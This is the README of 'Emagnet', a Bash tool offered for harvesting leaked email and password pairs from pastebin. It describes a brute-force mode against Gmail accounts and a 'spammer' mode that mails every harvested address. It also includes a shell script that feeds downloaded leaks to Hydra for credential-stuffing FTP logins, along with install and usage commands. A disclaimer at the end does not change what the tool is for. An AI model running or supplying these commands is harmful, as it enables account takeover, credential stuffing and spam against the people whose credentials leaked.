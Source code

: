 ![Screenshot](https://nr1.nu/emagnet/previews/emagnet_oldmovi.gif)

## <p align="center"> _"I'll will find you, it's just a matter of time"_
<p align="center">

  <a href="https://github.com/wuseman/EMAGNET">
<img src="https://img.shields.io/github/languages/top/wuseman/emagnet.svg?color=magenta&label=Bash%2FShell">
  <a href="https://github.com/wuseman/EMAGNET/issues?q=is%3Aissue+is%3Aclosed">
    <img src="https://img.shields.io/github/issues-closed/wuseman/emagnet.svg?color=light&label=Closed%20Issues">
  
  <a href="https://github.com/wuseman/EMAGNET/issues">
    <img src="https://img.shields.io/github/issues-raw/wuseman/emagnet.svg?color=orange&label=Open%20Issues">
  
  
  
  <img src="https://img.shields.io/github/last-commit/wuseman/emagnet.svg?color=darkmagenta&label=Latest%20Commit">
  <a href="https://twitter.com/wuseman1">
  

 <img src="https://img.shields.io/website/https/nr1.nu.svg?down_color=darkred&down_message=DOWN&label=Nr1.nu%2Femagnet&up_message=UP">
  

  <a href="">
    <img src="https://img.shields.io/github/license/wuseman/emagnet.svg?color=blue&label=License">
  <a href="">
    <img src="">

</p>

| Version            |  Released      | Status                            | Tested On                          |
| :----------------- | :------------- | :-------------------------------- | :----------------------------------|
| `3.0`              |  2019-06-19    | Under Active Development          | Linux - Windows - MacOS - Android  |
| `2.1`              |  2019-05-17    | Stable                            | Linux - Windows - MacOS - Android  |

Emagnet is a very powerful tool for it's purpose wich is to capture email addresses and passwords from leaked databases uploaded on pastebin. It's almost impossible to find leaked passwords when they are out of list on pastebin.com. Either they have been deleted by pastebin's techs or the uploads is just one in the crowd. To be honest it's easier to find a needle in a haystack then find outdated uploads on pastebin with the data we want to collect. Brute force mode has been added in version 2.0. See emagnet in action [here](https://nr1.nu/emagnet/previews/emagnet_infous.gif)

### Emagnet v3.0 - Support for jumping between VPN servers

![Screenshot](https://nr1.nu/emagnet/previews/ezgif-2-c2de16f47d3c.gif)

### Emagnet with a simple script running beside emagnet: 
#### Tools used: inotifywait + Cr3dOv3r + emagnet

![Screenshot](https://nr1.nu/f/emagnet-third-party.gif)

### Script for using Hydra when emagnet is running:

       #!/bin/bash
       
       inotifywait -q -m -r -e create --format '%w%f' "/path/to/monitor" | while read FILES; do
       # Run-your-favorit-tool-here--read-files-by-$(cat $FILES)
       # Just an example usage for Hydra that can be used when you download uploads from pastebin: 
       hydra -C $FILES ftp://$(grep-a-ip-or-hostname-for-example)”    
       # For use my example in the video: (for hit enter when cr3d0v3r asking for password read: "manual yes") 
       cd /path/to/Cr3dOv3r;python -q emailaddress.com 
       done

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/emagnet
    cd emagnet
    chmod +x emagnet*
    bash ./emagnet-setup.sh
    bash emagnet -e emagnet

* Normal mode without brute forcing: 

      ./emagnet -e emagnet

* Start brute force attack if there is any mail:password combinations found. If there is no mail:passwords found we just trying again as normal mode. (NOTICE: Support for GMAIL accounts only)
 
      ./emagnet -e bruteforce

* Download uploads from pastebin sorted by syntaxes, syntaxes is set by pastebin (https://pastebin.com/language)

      ./emagnet -e syntax

* Send an choosen email to all targets we have found, this require emagnet to run in another session.

      ./emagnet -e spammer

###  Get Started On Windows 10

Please visit my installation [wiki](https://github.com/wuseman/EMAGNET/wiki/Installation) for more info (includes a video)

### Wiki Sections:

- [About](https://github.com/wuseman/EMAGNET/wiki/ABOUT) - 
_How everything started._

- [Faq](https://github.com/wuseman/EMAGNET/wiki/FAQ) - 
_How to grab your visa card if it has been leaked. Also get answers why we not using TOR._

- [Installation](https://github.com/wuseman/EMAGNET/wiki/INSTALLATION) - 
_Video preview for how to get started on windows_

- [Tips & Tricks](https://github.com/wuseman/EMAGNET/wiki) - 
_How To Find your facebook credenticals, if it has been leaked._

### System requirements

- Bash     - Find more info about _bash_ [here](https://www.gnu.org/software/bash/)
- Parallel - Find more info about _parallel_ [here](https://www.gnu.org/software/parallel/)
- Wget     - Find more info about _wget_ [here](https://www.gnu.org/software/wget/)
- Curl     - Find more info about _curl_ [here](https://github.com/curl/curl)
- Lynx     - Find more info about _lynx_ [here](https://lynx.browser.org/)
- Elinks   - Find more info about _elinks_ [here](http://elinks.or.cz/)

## Changelog

[Versions changelog](CHANGELOG.md).


## Authors: 

* **wuseman <wuseman@nr1.nu\>** 

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE.md](LICENSE.md) file for details


### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

If you are one of these who dislikes _EMAGNET_ and believe the program has been developed for a reason that would break the law then I am not interested in taking part of your opinions, keep them for _yourself_! Emagnet does **NOT** leak any data at all. _EMAGNET_ gathering data from PASTEBIN and that is the source for all files EMAGNET is downloading.

If you'r email AND password is in my video tutorials please change your password **_ASAP_** and contact PASTEBIN to request  a removal from the source. This is nothing i can be held responsible for. Pastebin contact formular can be found [here](https://pastebin.com/contact)
 
Be more careful with your private data - It's 2019, you **really** should know better how to keep your data private. 

ALL questions about this will be ignored and filtered as spam FYI. 

Feel free to read the history about emagnet [here](https://github.com/wuseman/EMAGNET/wiki/About) and how everything started about this project.

### Notice

Brute forcing any user(s) account that you do not own or have been granted permission to sign in on is **stricly** forbidden, in most countrys you will break the law so please don't use EMAGNET for any illegal purposes, emagnet has been developed for a a legal purpose to count data and statistics.

wuseman says: All my previews where a brute force attack is under controlling forms. If you have any questions about this then you are welcome to contact me.


_wuseman cannot be held as responsible for users actions regardless of what damage a user can achieve with the information/data emagnet might collect for any user(s). All users that  gathering information or data via emagnet is 100% responsible for their own actions, emagnet has been developed for a legal purpose._

####
#### Emagnet development has just started and is FAR away from complete, to be continued. 
####

